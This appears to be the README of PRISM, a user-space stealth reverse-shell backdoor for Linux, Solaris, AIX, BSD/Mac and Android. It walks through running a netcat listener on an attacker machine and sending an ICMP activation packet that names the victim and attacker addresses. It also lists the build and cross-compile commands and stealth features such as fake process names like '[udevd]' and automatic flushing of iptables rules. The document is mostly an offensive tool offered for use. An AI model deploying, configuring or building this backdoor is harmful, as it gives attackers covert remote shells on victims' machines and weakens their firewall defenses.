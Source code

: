 # Prism

PRISM is an user space stealth reverse shell backdoor. 

It was fully tested on:

* **Linux**
* **Solaris**
* **AIX**
* **BSD/Mac**
* **Android**

PRISM can works in two different ways: **ICMP** and **STATIC** mode.

## ICMP mode:

Using this operation mode the backdoor waits silently in background for a specific ICMP packet 
containing the host/port to connect back and a private key to prevent third party access. 

* First, run **netcat** on the attacker machine to wait for incoming connection from the backdoor:
```bash
$ nc -l -p 6666 
```

* Using the **sendPacket.py** script (or another packet builder) send the activation packet to the backdoor: 
```bash
./sendPacket.py 192.168.0.1 p4ssw0rd 192.168.0.10 6666
```
 **192.168.0.1**  is the victim machine running prism backdoor  
 **p4ssw0rd** is the key  
 **192.168.0.10** is the attacker machine address  
 **6666** is the attacker machine port

* The backdoor will connect back to netcat!


## STATIC mode:

Using this operation mode the backdoor try to connects to an hard-coded IP/PORT. 
In this case, run netcat listening on the hard-coded machine/port:
```bash
 $ nc -l -p [PORT] 
```

## Features: 

* Two operating modes (ICMP and STATIC)
* Runtime process renaming
* No listening ports
* Automatic iptables rules flushing
* Written in pure C
* No library dependencies

## Configuration:

Before building, you have to configure the backdoor editing the source code.  
Following the configuration parameters description:

**STATIC mode:**  
*REVERSE_HOST*:   Machine address to connect back  
*REVERSE_PORT*:   Machine port to connect back  
*RESPAWN_DELAY*:  Time, in seconds, between each connection  

**ICMP mode:**  
*ICMP_KEY*:       Key/Password to activate the backdoor  

**Generic parameters:**  
*MOTD*:           Message to be printed at the backdoor connection  
*SHELL*:          Shell to execute  
*PROCESS_NAME*:   Fake process name  

## Building:

`gcc <..OPTIONS..> -Wall -s -o prism prism.c`

Available GCC options:  
**-DDETACH**        #Run the process in background  
**-DSTATIC**        #Enable STATIC mode (default is the ICMP mode)  
**-DNORENAME**      #Doesn't renames the process  
**-DIPTABLES**     #Try to flush all iptables rules  

Example:  
`gcc -DDETACH -DNORENAME -Wall -s -o prism prism.c`

## Cross Compiling:
* **Android**  
Change the shell to */system/bin/sh*  
`apt-get install gcc-arm-linux-gnueabi`  
`arm-linux-gnueabi-gcc -DSTATIC -DDETACH -DNORENAME -static -march=armv5 prism.c -o prism`

* **Linux 64bit** (using a 32bit host system)   
`apt-get install libc6-dev-amd64`  
`gcc -DDETACH -m64 -Wall -s -o prism prism.c`

* **Linux 32bit** (using a 64bit host system)   
`apt-get install libc6-dev-i386`  
`gcc -DDETACH -m32 -Wall -s -o prism prism.c`

## Backdoor building information

The backdoor ignore any parameter throught the command line, except the "**Inf0**" (the last char is a digit).  
This option allow you to see some information about the backdoor:

```bash
$ ./prism Inf0
 Version:  	0.5
 Mode:			icmp
 Key:			p455w0rD
 Process name:		[udevd]
 Shell:			/bin/sh
 Detach:		Yes
 Flush Iptables:	No
```
